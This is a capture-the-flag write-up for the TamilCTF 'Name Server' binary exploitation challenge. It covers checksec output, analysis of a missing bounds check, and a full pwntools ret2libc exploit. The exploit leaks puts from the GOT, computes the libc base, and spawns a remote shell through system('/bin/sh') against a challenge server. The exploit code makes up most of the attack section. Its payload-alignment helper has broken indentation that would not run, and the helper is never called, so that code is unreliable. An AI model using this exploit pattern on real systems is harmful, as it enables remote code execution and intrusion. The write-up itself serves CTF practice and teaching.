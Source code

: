 # TamilCTF

# NAME SEVER 214 Points ,58 solves


## Checksec Output
```bash
╭─ ~/Desktop/Tamilctf/nameserver/nameserver │ sam0x@parrot                                                                                                                                 ✔ 
╰─ checksec name-serv 
[*] '/home/sam0x/Desktop/Tamilctf/nameserver/nameserver/name-serv'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```



## Analysing the binary on Ghidra



![screenshot](https://github.com/shyam0904a/TamilCTF/blob/master/Pasted%20image%2020210930131942.png)

#### There is no input bound checking 
#### NX is enabled so no shellcoding
#### We can use basic ROP chaining attack to exploit this

## Exploiting

#### TO FIND / CONSTRAINS
           
The lic version is unknown 
			
*since we  know it's a 64 bit binary we just cant directly modify the rsp *
*We cant overwrite RSP with 8 byte value , only 6 Bytes can be used else we get general protextion error * (Canonical and non canonical address comes to play )*
#### Using GEF & finding offset

![screenshot](https://github.com/shyam0904a/TamilCTF/blob/master/Pasted%20image%2020210930134637.png)



*we overflow the rbp after 32 bytes *
*so to overwrite the rsp we neet to overwrite rbp +6 *
*i.e we overflow rbp after 32 bytes then the rbp value to rsp value*
*offset = 40*

## The exploitation part



      from pwn import *

      offset = b'A'*40

      ##pwntools context

      context.update(arch='amd64', os='linux')
      p=remote('3.97.113.25', 9001)
      # p=process('name_server_patched')
      elf=ELF('./name-serv',False)
      rop=ROP(elf)



      ##leaking GOT address
      puts_plt=elf.plt['puts']
      puts_got=elf.got['puts']
      main_plt=elf.symbols['main']
      pop_rdi= (rop.find_gadget(['pop rdi', 'ret']))[0]
      ret= (rop.find_gadget(['ret']))[0]


      payload = offset +p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_plt) 

      p.recvuntil(b':')
      p.sendline(payload)
      recieved = p.recvline().strip()

      # Parse leaked address

      log.info(f"Len rop1: {len(payload)}")
      leak = u64(recieved.ljust(8, b"\x00"))
      log.info("libc address of puts :" + hex(leak))

      ##setting up libc base

      libc=ELF('libc6_2.31-0ubuntu9_amd64.so')
      libc.address = leak - libc.symbols['puts'] #Save libc base
      log.info("libc base @ %s" % hex(libc.address))


      ##Systm(/bin/sh)Payload

      bin_sh = next(libc.search(b"/bin/sh\x00"))
      system=libc.symbols['system']

      log.info("Bin/sh :" + (hex(bin_sh)))
      log.info("System :" + (hex(system)))


      def generate_payload_aligned(ropp):
        payload1 = offset + ropp
          if (len(payload1) % 16) == 0:
          return payload1

          else:
               payload2 = offset + p64(ret) + ropp

           if (len(payload2) % 16) == 0:
                   log.info("Payload aligned successfully")
                   return payload2
               else:
                   log.warning(f"I couldn't align the payload! Len: {len(payload1)}")
                   return payload1

      payload2= offset + p64(ret)+p64(pop_rdi)+p64(bin_sh)+p64(system)

      log.info("length of payload2 is "  + str(len(payload2)))
      print(p.recvuntil(b':'))
      p.sendline(payload2)
      p.interactive()


*WE GET THE FLAG *
## TamilCTF{ReT_1s_M0rE_p0wErFu1_a5_LIBC}
